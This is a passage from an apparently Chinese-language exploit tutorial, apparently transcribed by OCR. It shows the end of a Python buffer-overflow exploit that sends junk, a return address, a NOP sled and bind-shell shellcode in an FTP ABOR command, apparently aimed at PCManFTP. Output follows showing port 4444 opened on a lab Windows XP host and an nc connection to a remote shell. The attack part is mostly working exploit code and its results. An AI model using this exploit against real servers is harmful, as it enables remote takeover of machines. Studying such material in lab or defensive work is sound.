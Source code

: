             "\x7c\xf9\x46\x73\x42\x04\xc5\x76\x3a\xf3\xd5\xf2\x3f\xbf\x51"
            "\xee\x4d\xd0\x37\x10\xe2\xd1\x1d\x1a\xcd")
        sploit = junk+espaddress+nops+shellcode
        #sploit = "A" * 2008    
        #create socket
        conn = s.socket(s.AF_INET,s.SOCK_STREAM)
        #establish connection to server
        conn.connect((host,21))
        #post ftp user
        conn.send('USER '+fuser+'\r\n')
        #wait for response
        uf = conn.recv(1024)
        #post ftp password
        conn.send('PASS '+fpass+'\r\n')
        #wait for response
        pf = conn.recv(1024)
        #send ftp command with sploit
        conn.send('ABOR '+sploit+'\r\n')
        cf = conn.recv(1024)
        #close connection
        conn.close()

使用的shellcode是绑定shell到4444端口，可以看到运行exp后，

    
    
    C:\>python hackftp.py 192.168.253.151 giantbranch test
    
    C:\>netstat -ano
    
    Active Connections
    
      Proto  Local Address          Foreign Address        State           PID
      TCP    0.0.0.0:21             0.0.0.0:0              LISTENING       2080
      TCP    0.0.0.0:80             0.0.0.0:0              LISTENING       1424
      TCP    0.0.0.0:135            0.0.0.0:0              LISTENING       780
      TCP    0.0.0.0:443            0.0.0.0:0              LISTENING       1424
      TCP    0.0.0.0:1025           0.0.0.0:0              LISTENING       1424
      TCP    0.0.0.0:3389           0.0.0.0:0              LISTENING       732
      TCP    0.0.0.0:4444           0.0.0.0:0              LISTENING       2080
      TCP    127.0.0.1:1026         0.0.0.0:0              LISTENING       256
    ......

我们nc连接一下看看，可以

    
    
    D:\桌面>nc 192.168.253.151 4444
    
    D:\桌面>nc 192.168.253.151 4444
    Microsoft Windows XP [版本 5.1.2600]
    (C) 版权所有 1985-2001 Microsoft Corp.
    
    E:\PCManFTP>dir
    dir
     驱动器 E 中的卷没有标签。
     卷的序列号是 EE6E-2ADE
    